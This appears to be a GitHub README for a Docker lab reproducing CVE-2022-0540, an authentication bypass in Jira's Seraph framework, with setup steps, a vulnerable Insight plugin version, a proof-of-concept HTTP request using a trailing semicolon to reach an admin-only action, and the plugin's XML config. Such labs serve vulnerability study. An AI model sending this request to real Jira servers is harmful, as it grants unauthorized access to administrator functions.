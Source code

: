 
# Authentication Bypass in Jira Seraph Vulnerability (CVE-2022-0540)

## Introduction

Jira Server and Data Center vulnerable to an authentication bypass in its web authentication framework, Jira Seraph.

Although the vulnerability is in the core of Jira, it affects first and third party apps that specify roles-required at the webwork1 action namespace level and do not specify it at an action level. For a specific action to be affected, the action will also need to not perform any other authentication or authorization checks.

## Setup

Run

```bash
docker-compose up
```

and access to `http://localhost:8080`, setup jira using free trial key.

install [insight-asset-management 8.9.4](https://marketplace.atlassian.com/apps/1212137/insight-asset-management/version-history) in `http://localhost:8080/plugins/servlet/upm/marketplace?source=side_nav_find_new_addons`

## Poc

In this case, I have use a trial key for Jira Software. Send request below to get the configuration of insight plugin.

```http
GET /InsightPluginShowGeneralConfiguration.jspa; HTTP/1.1
Host: 10.128.154.152:8080
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36 Edg/101.0.1210.39
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

![poc](images/screenshot.jpg)

As said by **khoadha**, the affect version of this plugin has below `webwork1 tag`

```xml
<webwork1 key="rlabs_pluginconfig_insight_webactions_config_init" name="Insight Plugin Config Show" class="java.lang.Object" roles-required="admin">
    <actions>
        <action name="com.riadalabs.jira.plugins.insight.channel.web.action.InsightPluginGeneralConfigAction" alias="InsightPluginShowGeneralConfiguration">
            <view name="error">/templates/common/error.vm</view>
            <view name="success">/templates/pluginadmin/general_configure_show.vm</view>
        </action>
    </actions>
</webwork1>
```

but the `roles-required` has been bypass.

## Reference

1. https://jira.atlassian.com/browse/JRASERVER-73650
2. https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/
